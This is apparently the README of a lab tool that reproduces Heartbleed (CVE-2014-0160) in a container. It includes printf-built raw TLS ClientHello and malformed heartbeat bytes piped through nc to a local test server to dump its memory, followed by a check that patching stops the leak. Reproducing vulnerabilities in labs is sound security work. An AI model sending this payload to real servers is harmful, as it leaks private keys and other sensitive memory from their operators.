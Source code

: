 # CVE-2014-0160 (Heartbleed)

### Description
The (1) TLS and (2) DTLS implementations in OpenSSL 1.0.1 before 1.0.1g do not properly handle Heartbeat Extension packets, which allows remote attackers to obtain sensitive information from process memory via crafted packets that trigger a buffer over-read, as demonstrated by reading private keys, related to d1_both.c and t1_lib.c, aka the Heartbleed bug.


### Command to run
```shell
python decret.py --port 4433 --number 2014-0160 --release bullseye --directory heartbleed --selenium
```

### Simple testing method
In the container :
```shell
openssl req -x509 -newkey rsa:2048 -out cert.pem -keyout key.pem -keyform PEM -outform PEM -nodes
openssl s_server -tls1 -cert cert.pem -key key.pem
```
Then, on the host : 
```shell
( printf "\x16\x03\x01\x00\x38\x01\x00\x00\x34\x03\x01"
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x00\x00\x00\x00\x00\x00" # Random
printf "\x00\x00\x06\x00\x05\x00\x35\x00\x39\x01\x00"
printf "\x00\x05\x00\x0f\x00\x01\x01" ) > chello.bin

printf "\x18\x03\x01\x00\x03\x01\xff\xff" > hb.bin

(cat chello.bin; sleep 3; cat hb.bin) | nc 127.0.0.1 4433 | hexdump -C
```

Since we redirected the 4433 port, we can easily connect to the
vulnerable server.  It is also possible to enter the network namespace
from the host if you do not want to redirect a port.  From the host,
you can do this as `root` and have access to the network stack from
the container while using the filesystem from the host:
```
# ps auxw | grep openssl
root     123456  [...] openssl s_server -tls1 -cert cert.pem -key key.pem
# nsenter -n /proc/123456/ns/net
```

We observe that a lot of data thus it is vulnerable.

If `openssl` is then updated in the container :
```shell
apt-get install openssl
```
And the exploit is tested again, only a few bytes are sent back. The vulnerability is fixed.

